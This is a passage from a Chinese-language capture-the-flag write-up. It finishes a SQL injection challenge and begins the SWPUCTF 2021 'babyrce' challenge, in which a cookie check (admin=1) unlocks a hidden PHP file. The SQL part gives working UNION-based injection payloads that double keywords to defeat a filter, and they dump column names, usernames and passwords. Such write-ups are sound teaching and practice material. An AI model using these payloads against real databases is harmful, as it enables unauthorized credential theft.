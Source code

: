 得到数据库geek下有两张表分别为'b4bsql' 'geekuser' 根据题目名字flag大概率在b4bsql表中

构建payload爆字段名

```sql
1'  ununionion selselectect 1,2,group_concat(column_name) frfromom infoorrmation_schema.columns whewherere table_name='b4bsql' #
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732206002083-660fa353-d3e9-422a-bf09-0ec3180e8c91.png)

再构建payload爆出三个字段的值

```sql
1'  ununionion selselectect 1,2,group_concat(id) frfromom b4bsql #
1'  ununionion selselectect 1,2,group_concat(username) frfromom b4bsql #
1'  ununionion selselectect 1,2,group_concat(passwoorrd) frfromom b4bsql #  //or被过滤了所以要双写
```

爆出结果

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732206164623-26730f76-0a08-4185-9b27-65f606345827.png)

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732206189845-fa05bd59-7641-42cc-967d-d48cbed0a148.png)

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732206292570-ab77a2f5-f022-4b68-8cbc-5a6e0436ae07.png)

得到flag

## [SWPUCTF 2021 新生赛]babyrce
打开页面后发现一段脚本

```php
 <?php
error_reporting(0);
header("Content-Type:text/html;charset=utf-8");
highlight_file(__FILE__);
if($_COOKIE['admin']==1) 
{
    include "../next.php";
}
else
    echo "小饼干最好吃啦！";
?> 
```

通过代码审计得知 题目需要我们上传cookie参数admin值为1

利用hackbar上传

 ![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736514795605-8ebcd99b-e338-4837-8ca8-4724eb84150f.png)

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736514810161-7a0f940e-1eca-4330-a41b-7736b212be87.png)

出现了这个文件名称 访问 rasalghul.php出现了一段php代码

